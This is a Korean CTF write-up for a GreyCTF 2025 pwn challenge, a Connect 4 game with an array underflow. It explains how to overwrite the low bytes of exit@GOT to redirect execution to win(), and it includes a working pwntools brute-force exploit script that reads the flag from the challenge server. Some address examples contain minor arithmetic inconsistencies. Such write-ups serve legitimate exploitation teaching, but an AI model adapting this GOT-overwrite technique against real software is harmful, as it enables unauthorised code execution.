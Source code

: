 ```yaml
---
tags: [ctf, write-up, pwn, system]		
---
```

![image.png](/assets/img/greyctf2025/image1.png)

---

해당 프로그램은 사용자의 입력을 받아 Connect 4 보드 게임을 시뮬레이션하는 콘솔 기반 프로그램이다. 플레이어는 8칸짜리 열(column)에 돌을 떨어뜨릴 수 있으며, 각 열은 최대 8개의 돌을 담을 수 있다. 이 제한을 초과하면 가장 아래의 돌이 제거되고 위의 돌들이 한 칸씩 아래로 내려오며 새로운 돌이 맨 위에 삽입된다.

게임 보드는 총 8행 8열(64바이트)의 크기를 가지며, 내부적으로 char board[8][8] 구조로 구현되어 있다. 하지만 열(column)에 8개 이상 돌을 삽입할 경우, 보드의 가장 아래에 있는 원소가 제거되면서 위의 값들이 내려오고, 새로운 값이 배열의 위(더 낮은 주소)인 board[-1][col]에 쓰이게 된다.

이를 코드를 통해 확인 해보면,

프로그램 내부에는 다음과 같은 전역 배열이 선언되어 있다.

```c
char board[8][8];
```

이는 총 64바이트(8행 × 8열) 크기의 2차원 배열로, 실제 메모리 상에는 연속된 메모리 공간으로 할당된다.

 

게임 중 사용자가 특정 열(column)에 8개 이상의 돌을 삽입하려고 하면, game() 함수 내부의 다음 코드가 실행된다

```c
int lastfree = 0;
while (board[lastfree][colint] == player1symbol || board[lastfree][colint] == player2symbol) {
    lastfree--;
}
```

위 코드에서 lastfree-- 연산이 경계 검사를 수행하지 않은 채 음수로 진행되므로, C언어의 특성상 board[-1][colint], board[-2][colint] 와 같은 배열 범위 밖의 메모리에 쓰기(write)가 발생하게 된다. 이는 스택 또는 전역 영역의 언더플로우에 해당하며, 인접한 전역 변수를 덮는 데 사용될 수 있다.

이 언더플로우 취약점을 이용해 보드 배열보다 위쪽 메모리에 위치한 중요한 구조체, 특히 GOT(Global Offset Table) 항목을 덮는 것이 가능하다. 

![image.png](/assets/img/greyctf2025/image2.png)

```
[exit@GOT]
    ↑       ← board[-8][col]
    │
[ board[0][0] ]
    ↓
[ board[7][7] ]
```

위의 이미지와 그림을 참고하면, exit@GOT 주소가 board[0][0]보다 64바이트 위쪽에 위치해 있는 것을 확인할 수 있다. 즉, 같은 열에 16개 이상의 돌을 삽입하면 board[-8][0] 위치에 접근할 수 있으며, 이는 exit@GOT 주소를 덮는 것과 동일하다.

이 프로그램은 종료 시 exit() 함수를 호출한다. 따라서 exit@GOT의 값을 조작하려 win()로 리디렉션하면 쉘 획득이 가능하다.

이 문제는 PIE(Position Independent Executable)가 적용된 환경이며, 해당 바이너리의 모든 섹션(.text, .got, .bss 등)은 실행 시 무작위 PIE base에 따라 재배치된다. 따라서 win() 함수의 절대 주소도 실행할 때마다 바뀌지만, .text 섹션 내 오프셋은 고정되어 있어 하위 12비트(즉, 하위 2바이트)는 변하지 않는다.

```bash
pwndbg> p win
$1 = 0x555555555fc9 <win>
```

win() 함수는 .text 기준 고정 오프셋인 0x5fc9에 존재한다.

exit@GOT는 프로그램 실행 초기에는 아직 실제 libc의 exit() 주소가 기록되지 않은 상태이다.

exit()이 호출되면, PLT의 stub가 동작하여 GOT를 참조하지만, 우리가 그 이전에 GOT 항목의 하위 2바이트만 win()의 offset으로 덮으면, 해당 위치로 프로그램 흐름이 리디렉션된다.

이 stub 주소도 .text 섹션 내부에 존재하므로, 마찬가지로 PIE base가 동일하게 적용된다.

결과적으로 exit@GOT에 저장된 초기값과 win() 함수는 모두 동일한 PIE base를 공유하고 있으므로,

상위 6바이트가 동일하게 되고, 하위 2바이트만 덮으면 정확히 win() 주소로 리디렉션할 수 있다.

여기서 중요한 것은 알아낸 win의 주소는 PIE base가 0x555555554000일 때의 기준, 오프셋 1fc9가 적용된 값이다.

ASLR이 적용된 경우 PIE base는 0x5555555554xxx 까지가 변경되므로, 리모트 환경에서 win()함수의 하위 2바이트는 5fc9가 아닐수도 있다.

ex)

```bash
PIE base = 0x5555555557000 // 끝에 000은 고정
win() = 0x5555555558fc9 // 하위 2바이트가 8fc9
```

따라서 ASLR이 적용된 PIE base의 하위 2바이트가 4000으로 끝날 때까지 익스코드를 반복 실행하여야 한다. 

### 익스 흐름

1. 초기 심볼로 b'\xc9'와 b'\x5f'을 설정하여, 언더플로우 시 리틀 엔디안 순서로 0x5fc9가 exit@GOT에 기록되도록 한다.
2. send_positions() 함수를 통해 특정 열(ex: 0번, 1번)에 번갈아가며 총 16개의 돌을 삽입하면,
    
    board[-8][col]까지 접근 가능해져 exit@GOT의 값을 덮을 수 있다.
    
3. 이후 프로그램이 exit()을 호출할 때(0~7을 제외한 값을 보내면 호출됨), GOT를 통해 참조되는 주소가 우리가 덮은 0x5fc9이므로, 실제로는 win() 함수가 호출되어 쉘을 획득하게 된다.
4. 쉘 획득에 실패할 경우 반복한다.

### exploit.py

```c
from pwn import process, remote
import sys

def send_positions(p, one, two):
    print(f"Sending positions: {one} and {two}")
    p.recvuntil(b"> ")
    p.sendline(one)
    p.recvuntil(b"> ")
    p.sendline(two)

def got_shell(p):
    p.recvuntil(b"> ")
    p.sendline(b"a")
    p.sendline(b"echo success")

    try:
        p.recvuntil(b"success", timeout=20)
        return True
    except EOFError:
        return False

ctr = 0

while True:
    ctr += 1

    try:
        p = remote("challs.nusgreyhats.org", port=33102, timeout=15)
        
        send_positions(p, b"\xc9", b"\x5f")
        for i in range(16):
            if i % 2 == 0:
                send_positions(p, b"0", b"1")
            else:
                send_positions(p, b"1", b"0")

        p.sendline(b"")

        if got_shell(p):
            print(f"[+] success (try {ctr})")
            p.sendline(b"cat flag.txt")
            print(p.recvuntil(b"}").decode().strip())
            sys.exit()
        else:
            print(f"[-] failed (try {ctr})")
            p.close()

    except (BrokenPipeError, EOFError) as e:
        print(f"[!] Connection error on try {ctr}: {e}")
        try:
            p.close()
        except:
            pass
        continue

```

![image.png](/assets/img/greyctf2025/image3.png)